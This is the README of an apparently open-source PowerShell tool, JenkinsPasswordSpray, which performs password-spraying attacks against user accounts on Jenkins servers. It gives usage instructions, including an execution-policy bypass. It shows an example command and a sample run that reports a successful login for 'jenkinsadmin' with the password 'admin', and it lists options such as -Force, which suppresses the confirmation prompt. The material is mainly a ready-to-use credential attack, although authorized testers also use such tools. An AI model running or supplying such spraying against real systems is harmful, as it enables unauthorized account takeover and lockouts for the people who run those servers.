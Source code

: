 # JenkinsPasswordSpray
JenkinsPasswordSpray is a tool witten i PowerShell to perform password spraying attacks against users of a [Jenkins](https://jenkins.io/) instance. Be careful not to lock out accounts!

## Quick Start Guide
Open a PowerShell terminal from the Windows command line with `powershell.exe -exec bypass` and import the module with `Import-Module JenkinsPasswordSpray.ps1`.

The required options are `URL`, `Username`/`UsernameFile` and `Password`/`PasswordFile`.

The following command will spray against a list of users and attempt to authenticate using each username and a password from the specified list. If a valid login is found, the script will stop unless `-ContinueOnSuccess` is set to `$True`. A confirmation will be prompted unless the `-Force` switch is set. The results of the spray will be output to a file called `sprayed-jenkins.txt`

The script will also try to help you clean up your URL if it's invalid or contains trailing elements like `/login`, as this will make the URL invalid for password spraying. But because your target Jenkins instance might be located in a subdirectory, this feature asks for confirmation before trimming the URL.

Type `Get-Help Invoke-JenkinsPasswordSpra` to see the different options.

### Example command

```PowerShell
Invoke-JenkinsPasswordSpray -URL http://jenkins:8080 -UsernameFile .\users.txt -PasswordFile .\pws.txt -ContinueOnSuccesss $true -Force -Outfile .\sprayed-jenkins.txt
```

### Example command with output

```PowerShell
PS C:\Windows\temp> Invoke-JenkinsPasswordSpray -URL http://10.0.0.7:8080/login/notvalid -Username jenkinsadmin -Password admin -ContinueOnSuccesss $true -Force -OutFile jenkins-sprayed.txt

[-] Detected trailing elements /login/notvalid in provided URL http://10.0.0.7:8080/login/notvalid.
[-] Will now try to remove it for you.
Do you want to use the URL http://10.0.0.7:8080 instead?
[Y] Yes  [N] No  [?] Help (default is "Y"):
[+] Replacing URL: http://10.0.0.7:8080/login/notvalid
[+] Will use this URL: http://10.0.0.7:8080
[+] Testing if URL is valid
[+] Provided URL: http://10.0.0.7:8080 returns 200 OK.

[+] Start password spraying the URL http://10.0.0.7:8080 with 1 user(s) and 1 password(s). Total request count is 1. Current time is 15:21
[+] Writing successful logins to jenkins-sprayed.txt
[Attempt 1 / 1] - Spraying username:jenkinsadmin with password:admin
[+] SUCCESS! Username:jenkinsadmin Password:admin

[+] Password spraying is complete
[*] Any passwords that were successfully sprayed have been written to jenkins-sprayed.txt
```




### Invoke-JenkinsPasswordSpray Options

```
UsernameList      - A list of usernames to spray
Username          - A single username to spray.
Password          - A single password to spray for each specified username.
PasswordList      - A list of passwords, one per line, to use for the password spray.
ContinueOnSuccess - Continue spraying, even if a valid account is found.
Force             - Forces the spray to continue without prompting for confirmation.
OutFile           - A file to output the results to.
```